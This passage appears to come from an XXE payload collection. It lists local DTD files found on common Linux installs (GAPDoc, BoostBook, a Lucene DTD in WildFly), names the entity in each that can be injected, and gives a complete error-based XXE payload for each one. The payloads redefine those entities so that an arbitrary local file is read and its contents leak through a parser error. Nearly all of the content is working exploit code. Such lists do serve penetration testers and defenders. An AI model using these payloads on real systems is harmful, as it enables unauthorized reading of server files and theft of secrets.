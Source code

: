 **Injectable entity:** `%n.InProceedings`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/lib/gap/pkg/GAPDoc-1.6.2/bibxmlext.dtd">

    <!ENTITY % n.InProceedings 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/boostbook/dtd/boostbook.dtd`

**Injectable entity:** `%boost.common.attrib`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/boostbook/dtd/boostbook.dtd">

    <!ENTITY % boost.common.attrib '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 


**DTD File:** `/opt/jboss/wildfly/modules/system/layers/base/org/apache/lucene/main/lucene-queryparser-5.5.5.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd`

**Injectable entity:** `%queries`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///opt/jboss/wildfly/modules/system/layers/base/org/apache/lucene/main/lucene-queryparser-5.5.5.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```